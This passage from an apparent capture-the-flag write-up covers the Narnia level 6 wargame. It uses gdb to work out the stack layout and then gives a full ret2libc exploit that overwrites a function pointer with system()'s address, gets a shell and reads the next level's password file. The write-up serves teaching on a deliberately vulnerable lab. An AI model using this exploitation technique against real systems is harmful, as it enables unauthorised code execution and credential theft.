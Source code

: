     fp(b1);

        exit(1);
}
{% endhighlight %}

Here we have 2 buffers of 8 bytes each and beacuse of the insecure strcpy we can overflow both of them. Overwriting the `*fp` function pointer leads to arbitrary code execution but we can't execute code on the stack due to the fancy checks and the `get_sp` assembly function. When the fp function is called, the content of buffer `b1` is passed to it. Let's do some gdb magic.
```
(gdb) disas main
	[...] 
   0x080486e4 <+316>:   mov    -0xc(%ebp),%eax
   0x080486e7 <+319>:   call   *%eax
   0x080486e9 <+321>:   add    $0x4,%esp
   0x080486ec <+324>:   push   $0x1
   0x080486ee <+326>:   call   0x8048440 <exit@plt>
End of assembler dump.
(gdb) b *0x080486e7
Breakpoint 1 at 0x80486e7

(gdb) run AAAAAAAACC BBBBBBBB
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /narnia/narnia6 AAAAAAAACC BBBBBBBB

Breakpoint 1, 0x080486e7 in main ()
(gdb) x/10xw $esp
0xffffd688:     0xffffd694      0x42424242      0x42424242      0x41414100
0xffffd698:     0x41414141      0x08004343      0x00000003      0x00000000
0xffffd6a8:     0x00000000      0xf7e2a286
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x08004343 in ?? ()

```
As you can see the second buffer is located priot in memory (0x42424242) followed by the first one. We also know that immediatly after the second buffer in memory the fp pointer is stored because we get a `segv` by overwriting it.
> `[8bytes second arg][8bytes first arg][fp pointer]`
 
To exploit this we need to use an already existing function, and what's better than `system()`?
```
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e4c850  __libc_system
0xf7e4c850  system
0xf7f25c60  svcerr_systemerr
(gdb) 
```
Now we know it's address in memory (0xf7e4c850). The argument used for its call is whatever is found in the second 8 bytes buffer in memory.
```
narnia6@narnia:/narnia$ ./narnia6 AAAAAAAA$(python -c "print('\x50\xc8\xe4\xf7')") AAAAAAAA/bin/sh
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
**********
```